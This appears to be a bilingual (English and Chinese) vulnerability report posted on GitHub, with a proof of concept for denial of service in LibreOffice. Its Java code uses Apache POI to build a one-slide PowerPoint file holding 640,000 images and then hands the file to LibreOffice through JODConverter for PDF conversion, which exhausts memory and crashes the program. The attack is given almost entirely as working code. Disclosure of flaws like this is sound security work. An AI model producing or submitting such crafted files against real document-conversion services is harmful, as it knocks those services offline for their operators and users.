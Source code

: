 1. Generate malicious ppt files, using Java's POI plugin to generate them
Produce a PowerPoint file with only one slide through the POI plugin, containing a total of 640000 images of 800 * 800

The code is as follows：
···
public class PowerPointUtil {
    private static final int NUM =800;
    public static void main(String[] args) {
        String path="E:\\office\\test.pptx";
        try {
            createPPT(path);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    public static void createPPT(String path) throws IOException {
        XMLSlideShow ppt = new XMLSlideShow();
        XSLFSlide slide = ppt.createSlide();
        byte[] bt = FileUtils.readFileToByteArray(new File("E:\\office\\test.png"));

        for (int i = 0; i < NUM; i++) {
            for (int j = 0; j < NUM; j++) {
                XSLFPictureData pictureData = ppt.addPicture(bt, PictureData.PictureType.PNG);
                XSLFPictureShape pic = slide.createPicture(pictureData);
                pic.setAnchor(new Rectangle(i, j, 50, 50));
            }
        }
        ppt.write(new FileOutputStream(path));
    }
}
···

2\Operate libreoffice through the org. jdconverter dependency package, and initialize the configuration as follows

The code is as follows：

public class OfficeManagerInstance {
    private static OfficeManager INSTANCE = null;
    public static synchronized void start() {
        officeManagerStart();
    }
    public static synchronized void stop() {
        try {
            INSTANCE.stop();
        } catch (OfficeException e) {
            e.printStackTrace();
        }
    }
    public static void init() {

            LocalOfficeManager.Builder builder = LocalOfficeManager.builder().install();
            builder.officeHome("E:\\libreOffice\\");
            builder.portNumbers(8098);
            builder.taskExecutionTimeout(5 * 1000 * 60); // minute
            builder.taskQueueTimeout(10 * 1000 * 60 * 60); // hour

            INSTANCE = builder.build();
            officeManagerStart();

    }
    private static void officeManagerStart() {
        if (INSTANCE.isRunning()) {
            return;
        }
        try {
            INSTANCE.start();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

3、Finally, call the OfficeManager to execute the operation of converting ppt to pdf

The code is as follows：

public class LibreOfficeUtil {
    public static void main(String[] args) {
        String pptPath="E:\\office\\test.pptx";
        String pdfPath="E:\\office\\test.pdf";

        OfficeManagerInstance.init();
        OfficeManagerInstance.start();

        try {
            JodConverter.convert(new File(pptPath)).to(new File(pdfPath)).execute();
        } catch (OfficeException e) {
            e.printStackTrace();
        }finally {
            OfficeManagerInstance.stop();
        }
    }
}

4、Upon checking the memory usage, it was found that libreoffice was consuming a large amount of memory on the machine, which led to program crashes and DOS issues

![RS0_6I){_MC}D)``}36A0RC](https://github.com/bzdxtdlsd/test1/assets/58172556/d5210e71-a12c-4d98-a6e8-9d9322f9949e)


1、生成恶意的 ppt 文件，这里采用 java 的 poi 插件去生成
通过 poi 插件，生产一个只有一张幻灯片的 ppt 文件，其中含有 800*800 共 64 万张图片 

代码如下：

public class PowerPointUtil {
    private static final int NUM =800;
    public static void main(String[] args) {
        String path="E:\\office\\test.pptx";
        try {
            createPPT(path);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    public static void createPPT(String path) throws IOException {
        XMLSlideShow ppt = new XMLSlideShow();
        XSLFSlide slide = ppt.createSlide();
        byte[] bt = FileUtils.readFileToByteArray(new File("E:\\office\\test.png"));

        for (int i = 0; i < NUM; i++) {
            for (int j = 0; j < NUM; j++) {
                XSLFPictureData pictureData = ppt.addPicture(bt, PictureData.PictureType.PNG);
                XSLFPictureShape pic = slide.createPicture(pictureData);
                pic.setAnchor(new Rectangle(i, j, 50, 50));
            }
        }
        ppt.write(new FileOutputStream(path));
    }
}

2、通过 org.jodconverter 依赖包操作 libreoffice，初始化配置如下
代码片段：

public class OfficeManagerInstance {
    private static OfficeManager INSTANCE = null;
    public static synchronized void start() {
        officeManagerStart();
    }
    public static synchronized void stop() {
        try {
            INSTANCE.stop();
        } catch (OfficeException e) {
            e.printStackTrace();
        }
    }
    public static void init() {

            LocalOfficeManager.Builder builder = LocalOfficeManager.builder().install();
            builder.officeHome("E:\\libreOffice\\");
            builder.portNumbers(8098);
            builder.taskExecutionTimeout(5 * 1000 * 60); // minute
            builder.taskQueueTimeout(10 * 1000 * 60 * 60); // hour

            INSTANCE = builder.build();
            officeManagerStart();

    }
    private static void officeManagerStart() {
        if (INSTANCE.isRunning()) {
            return;
        }
        try {
            INSTANCE.start();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

3、最后调用 OfficeManager 去执行 ppt 转 pdf 的操作
代码如下：

public class LibreOfficeUtil {
    public static void main(String[] args) {
        String pptPath="E:\\office\\test.pptx";
        String pdfPath="E:\\office\\test.pdf";

        OfficeManagerInstance.init();
        OfficeManagerInstance.start();

        try {
            JodConverter.convert(new File(pptPath)).to(new File(pdfPath)).execute();
        } catch (OfficeException e) {
            e.printStackTrace();
        }finally {
            OfficeManagerInstance.stop();
        }
    }
}

4、查看内存占用情况，发现 libreoffice 占用机器大量内存，之后程序崩溃，产生 DOS 问题

![RS0_6I){_MC}D)``}36A0RC](https://github.com/bzdxtdlsd/test1/assets/58172556/8a911d64-e18d-4d4b-8b36-8537307b93e7)

